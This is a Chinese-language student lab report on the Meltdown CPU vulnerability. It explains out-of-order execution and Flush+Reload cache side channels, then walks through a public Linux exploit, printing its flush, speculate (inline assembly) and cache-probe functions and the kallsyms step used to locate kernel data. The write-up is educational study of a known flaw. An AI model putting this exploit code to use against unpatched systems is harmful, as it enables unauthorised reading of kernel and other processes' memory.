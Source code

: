## Meltdown实验报告



#### 实验环境

- Ubuntu 16.04
- linux kernel version 4.13.0-45-generic
- 禁用PTI



#### 实验原理

主要参考Meltdown论文[1]， 谈谈自己的理解。

meltdown漏洞利用intel处理器的乱序执行的特点，基于cache进行侧信道攻击，实现对内存的越权访问。

- 乱序执行

乱序执行是指当CPU中的某些指令需要等待某些资源，比如内存读取时，CPU不会在当前指令停止，而是利用空闲的计算能力继续执行后续的指令。这大大地增加了计算能力的利用率，从而提升了CPU性能。看下面的一段代码：

```c
//代码来自meltdown论文[1]
raise_exception();
//the line below is never reached
access(probe_array[data*4096]);
```

在第一行我们引发了一个异常，若按照顺序执行，raise-exception后的代码不会被执行，因为程序由于exception已经被终止。但是由于不存在依赖，乱序执行会在异常引发之前将后面的代码先执行，执行结果存在ROB内不被提交，当异常引发后，access的执行结果会被撤销，仿佛它没有被执行过一样。然而，尽管乱序执行不会影响到memory内容，但是会影响cache状态。已经fetch的内容虽然不会被commit，但是已经存储在cache中！这也就给了我们攻击的机会。



- 侧信道攻击

侧信道攻击是指不去攻击信道本身来获得信息，而是通过观察信道双方通信时产生的其他影响，通过分析泄露的额外信息来建立映射，进而取得信息。

meltdown利用的侧信道为**cache中缓存的的page信息**，即攻击者可以获得这样的信息：**某一page是否在cache内**。

```asm
;代码来自meltdown论文[1]
;rcx = kernel address
;rbx = probe array
retry:
mov al, byte [rcx]
shl rax, 0xc
jz retry
mov rbx, qword [rbx + rax]
```

这段代码是攻击的核心部分，mov语句将保存在RCX寄存器中的目标内核地址内的数据存放到RAX寄存器中，并且进行权限检查，检查进程是否有权限访问该地址。因为用户态无权访问内核地址，这一条指令会引发异常，使得mov语句及其后面所有的语句的修改全部被抛弃。

但是因为权限检查是一种相对比较耗资源的工作，由于乱序执行和预测执行，后面的指令实际上会在权限检查结束前就已经执行过了，并且此时的计算是根据mov指令所读取到的数据所进行，并不受CPU权限限制。shl指令将会把这个数据乘以4096，并在下面的mov指令中将其作为offset来对数组probe array进行访问，这时rbx[al*4096]就会被载入cache。由于一个内存页的大小是4KB，不同的数据将会导致不同的内存页被访问并存放到cache中。

此后，另一个攻击者进程就可以通过cache侧信道攻击。cache攻击方式有Flush+Reload, Evict+Time和Prime+Probe. Meltdown**利用Flush+Reload来了解哪个内存页被访问过了**，从而推断出被访问的内核内存数据。

即利用CPU cache隐通道（covert channel)，将microarchitectural state转化architectural state，从cache变化中推断出register变化！具体来说，攻击者可以利用CPU加载某块地址空间的时间来推测这块内存最近是否被加载过，进而推测得到更多数据。例如，我们访问的是rbx[x * 4096]，不断遍历加载rbx[n * 4096], n从0到255，由于rbx[x * 4096]被cache了，则加载时间会远小于其他rbx[n * 4096]，这样我们就能够推测出x的值，进而得知RCX所指向的内核数据是n。



#### 攻击步骤

参考[2]的资料，我们结合这个程序来具体解释meltdown的攻击过程。

这个程序在用户态利用系统调用将linux_proc_banner变量的信息返回给应用程序，接着利用meltdown漏洞直接从用户态程序中访问linux_proc_banner变量，破坏memory isolation.

首先，在kernel command line中**添加nopti，reboot**。

接着gcc编译meltdown.c文件并run，运行run.sh, 其中利用了`sudo cat /proc/kallsyms`获取linux_proc_banner在内核内存中的位置。接下来具体分析meltdown.c文件的功能。

- Flush

  如实验原理中所述，meltdown利用Flush+Reload进行cache攻击。Flush阶段，通过clflush_target()函数，攻击者故意清除了target_array的缓存，为后面的reload作准备。

  ```c
  void clflush_target(void)
    {
    	int i;
    	for (i = 0; i < VARIANTS_READ; i++)
    	_mm_clflush(&target_array[i * TARGET_SIZE]); //	清除缓存
    }
  ```

  

- Speculate

  这一阶段利用汇编指令，触发异常，猜数据。

  ```c
  static void __attribute__((noinline))
  speculate(unsigned long addr)
  {
      asm volatile (
          "1:\n\t"
          ".rept 300\n\t"
          "add $0x141, %%rax\n\t"
          ".endr\n\t"
          "movzx (%[addr]), %%eax\n\t"	//这是在论文中出现的关键代码
          "shl $12, %%rax\n\t"			//在原理部分已说明
          "jz 1b\n\t"
          "movzx (%[target], %%rax, 1), %%rbx\n"
          "stopspeculate: \n\t"
          "nop\n\t"
          :
          : [target] "r" (target_array),
            [addr] "r" (addr)
          : "rax", "rbx"
      );
  }
  ```

  rept到endr是一段循环操作，使add语句的加法指令执行300次，这时为了测试处理器能乱序执行成功。

  接下来的movzx, shl, jz, movzx指令是论文中给出的关键代码，将addr上的数据读到eax寄存器中，引发处理器异常，接着shl指令为推测内核地址指向的数据作准备。

  虽然在实际情况下，执行到`"movzx (%[addr]), %%eax\n\t"`这一行的时候，CPU就会报出异常了，但因为推测执行的原因，随后的代码已经被执行了。虽然推测执行的结果会回滚，但是对cache的操作却是不可逆的。

  

- Reload

  `movzx (%[target], %%rax, 1), %%rbx\n`

  以目标内核地址指向的数据x * 4096为索引访问target数组，这时不同的数据会被加载到不同的缓存页面。这就是第一步里Flush后的Reload阶段。

  

- Probe

  ```c
  void check(void)
  {
  	int i, time, mix_i;
  	volatile char *addr;
      for (i = 0; i < VARIANTS_READ; i++) {
          mix_i = ((i * 167) + 13) & 255;
          addr = &target_array[mix_i * TARGET_SIZE];
          time = get_access_time(addr);
          if (time <= cache_hit_threshold)
              hist[mix_i]++;
      }
  }
  ```

  通过访问target里的数据的速度来判断哪个数据被放到了cache里，从而就能知道目标地址上的某一位数据是什么了。由于target的大小是256*4096，所以最多测试256次，就能推测出内核地址指向的数据中的**一个字节**是否被访问过。要推测内核地址指向的完整数据，就要不断**循环探测**。循环探测的代码比较简单，具体可见实验代码。

  

  

#### 期望结果

![实验结果](https://github.com/OSH-2018/4-hhhiddleston/blob/master/screenshot.png)





####进阶研究

由于我所学习的代码实现的功能比较局限，且鲁棒性不强，所以我又继续研究了Meltdown官方的库[3]，并利用他们的库做了一个更具展示性的demo。见[视频demo](https://github.com/OSH-2018/4-hhhiddleston/blob/master/my/demo.mp4)。

其中，loadimage.c是一个简单的读取ppm格式图片的程序，demo.c 实现的是对loadimage进程越权访问内存和进行图片重构。该部分代码存放在仓库的my文件夹里。





#### 思考

> 1. 该利用代码一次只能探测一个字节的数据，如果在内核数据还没读取完整之前处理器已经处理异常了该怎么办？

​	这点meltdown论文里有所提及，它指出了两种方法。

​	一是exception handling：执行暂时指令后catch exception。

​	二是exception suppression：抑制exception发生，将控制流重定位。



> 2. 探测数组target_array是否可以不用设置成256 * 4KB，设置成512 * 2KB，1024*1KB效果会如何？

​	理论上只要探测数组可以探测256个page，就可以实现meltdown越权访存，但是如果不使用256 * 4KB的探测数组，则不可以简单地使用cache命中的page number作为一个byte的值。





参考文献：

[1]Moritz Lipp, Michael Schwarz, Daniel Gruss, Thoma Prescher, Wenner Haas. Meltdown.On https://meltdownattack.com/ (2018)

[2]https://github.com/paboldin/meltdown-exploit

[3]https://github.com/IAIK/meltdown

[4]https://gitee.com/idea4good/meltdown







